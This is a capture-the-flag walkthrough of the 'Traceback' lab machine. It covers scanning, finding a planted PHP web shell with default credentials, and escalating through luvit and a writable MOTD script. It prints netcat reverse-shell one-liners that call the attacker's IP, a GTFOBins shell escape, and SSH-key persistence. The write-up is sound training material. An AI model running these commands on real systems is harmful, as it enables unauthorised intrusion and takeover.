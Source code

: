 # Traceback

## Nmap

```
sudo nmap 10.10.10.181 -p- -sS -sV           

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Jumping straight into port 80 we are presented with the page below:

![http://10.10.10.181/](<../../../.gitbook/assets/image (1619).png>)

Viewing the source for this web page shows the hacker has left a hint 'Some of the best web shells that you might need ;)'.

![view-source:http://10.10.10.181/](<../../../.gitbook/assets/image (1620).png>)

From here I executed dirsearch.py with the CommonBackdoors-PHP.fuzz.txt wordlist from seclists which can be found here: [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists).

```
sudo python3 dirsearch.py -u http://10.10.10.181 -w /usr/share/seclists/Discovery/Web-Content/CommonBackdoors-PHP.fuzz.txt --full-url -t 75 
```

![](<../../../.gitbook/assets/image (1621).png>)

dirsearch.py finds smevk.php from the wordlist. Browsing to the PHP webshell shows the following below:

![http://10.10.10.181/smevk.php](<../../../.gitbook/assets/image (1622) (1).png>)

Looking up the credentials for the SmEvK web shell we get the following GitHub link:[https://github.com/TheBinitGhimire/Web-Shells/blob/master/PHP/smevk.php](https://github.com/TheBinitGhimire/Web-Shells/blob/master/PHP/smevk.php)

This shows that the defaults are `admin:admin`

![](<../../../.gitbook/assets/image (1624).png>)

Once logged in we get the page below:

![http://10.10.10.181/smevk.php](<../../../.gitbook/assets/image (1625) (1).png>)

Heading over to the 'console' tab we see that when running `which nc` that `netcat` is installed. I set up a local listener on my attacking machine.

```
sudo nc -lvp 80
```

Then executed the following command on the web shell to gain a full reverse shell.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.29 80 >/tmp/f
```

![](<../../../.gitbook/assets/image (1626).png>)

Checking the users in `/home/` we have sysadmin and webadmin. The user webadmin has a note.txt file in their desktop.

![](<../../../.gitbook/assets/image (1627).png>)

Following this I was unable to find the tool which was mentioned. I then checked sudo privileges with `sudo -l` and took note that we can run `sudo` as the user sysadmin without specifying a password on the path `/home/sysadmin/luvit`.

![](<../../../.gitbook/assets/image (1628).png>)

Running the following command allows us to start the binary but seems to throw an exception and kick us out immediately.

```
sudo -u sysadmin /home/sysadmin/luvit
```

![](<../../../.gitbook/assets/image (1629).png>)

Looking up LUA on [GTFOBins](https://gtfobins.github.io/gtfobins/lua/) shows we may be able to spawn a system shell with the privileges of the executing user.

![](<../../../.gitbook/assets/image (1630).png>)

Using this I run the following command replacing 'lua' with 'luvit'.

```
sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/sh")'
```

![](<../../../.gitbook/assets/image (1632) (1).png>)

Which in turn gives us a shell as the user 'sysadmin'. Next use the following command to upgrade the shell.

```
/usr/bin/script -qc /bin/bash /dev/null
```

From here I opted to gain `SSH` access. As we do not know the password of the sysadmin user I will instead drop my attacking machines id\_rsa.pub contents into `/home/sysadmin/.ssh/authorized_keys` file.

If you do not have a `id_rsa.pub` file on the attacking machine run the following command and hit enter on all options.

```
ssh-keygen -t rsa
```

![](<../../../.gitbook/assets/image (1633).png>)

Then cat the contents of `id_rsa.pub`.

![](<../../../.gitbook/assets/image (1634).png>)

Then echo in the `authorized_keys` file on the target machine.

![](<../../../.gitbook/assets/image (1635).png>)

We can then log into `SSH` as the user sysadmin.

![](<../../../.gitbook/assets/image (1636).png>)

We also see the hacker has altered the MOTD banner when logging in. We can check the permissions of this in `/etc/updatemotd.d/`.

![](<../../../.gitbook/assets/image (1637).png>)

As we have write permissions over these files I will simply inject a `netcat` reverse shell into the first script run which is 00-header.

Set a `netcat` listener on the attacking machine then run the following command on the target machine:

```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.29 80 >/tmp/f' >> 00-header
```

Once completed log out of `SSH` and back in to execute. The login should hang and fail to complete.

![](<../../../.gitbook/assets/image (1638).png>)

Resulting in a root shell on the `netcat` listener.

![](<../../../.gitbook/assets/image (1639).png>)
